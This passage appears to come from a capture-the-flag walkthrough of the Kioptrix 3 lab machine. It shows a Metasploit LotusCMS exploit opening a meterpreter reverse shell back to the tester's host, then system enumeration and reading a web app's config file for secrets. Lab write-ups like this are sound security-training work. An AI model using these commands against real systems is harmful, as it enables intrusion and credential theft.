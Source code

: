 
msf exploit(lcms_php_exec) > set rhost 192.168.118.182
rhost => 192.168.118.182
msf exploit(lcms_php_exec) > set uri /
uri => /
msf exploit(lcms_php_exec) > set payload php/meterpreter/reverse_tcp
msf exploit(lcms_php_exec) > run

[*] Started reverse TCP handler on 192.168.118.180:4444
[*] Using found page param: /index.php?page=index
[*] Sending exploit ...
[*] Sending stage (33986 bytes) to 192.168.118.182

meterpreter >

Time to poke around on the machine and see what we can find.

uname -r
2.6.24-24-server

cat /proc/version
Linux version 2.6.24-24-server (buildd@palmer) (gcc version 4.2.4 (Ubuntu 4.2.4-1ubuntu4)) #1 SMP Tue Jul 7 20:21:17 UTC 2009

dpkg --get-selections | grep deinstall
libx11-6					deinstall
libxau6						deinstall
libxcb-xlib0					deinstall
libxcb1						deinstall
libxdmcp6					deinstall
x11-common					deinstall
xinit						deinstall

Nothing super interesting or a red flag.  The website isn't in /var/www/html, lets take a look at the apache config and see where it is at.

cd /etc/apache2/sites-enabled
ls
000-default
kioptrix3.com
cat kioptrix3.com
<VirtualHost :80>
        ServerName  www.kioptrix3.com
        DocumentRoot /home/www/kioptrix3.com
</VirtualHost>

Lets poke around that directory a bit.  The Lotus CMS is nothing but flat files...nothing cool.  The gallery webapp looks interesting.  

/home/www/kioptrix3.com/gallery

they were nice enough to leave behind the install.BAK file.  From looking at that the config is in the file gconfig.php

meterpreter > cat gconfig.php

***snip***
